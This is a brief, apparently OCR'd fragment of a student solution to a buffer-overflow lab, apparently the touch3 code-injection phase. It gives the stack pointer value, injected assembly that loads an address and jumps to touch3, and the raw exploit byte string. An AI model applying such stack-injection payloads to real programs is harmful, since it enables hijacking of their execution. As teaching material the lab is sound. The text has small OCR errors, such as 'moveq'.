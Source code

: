 ##### $rsp
(gdb) p/x $rsp

$1 = 0x5561dca8

##### disas touch3

0x4018fa

moveq $0x5561dca8, %rdi

pushq $0x4018fa

ret

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00

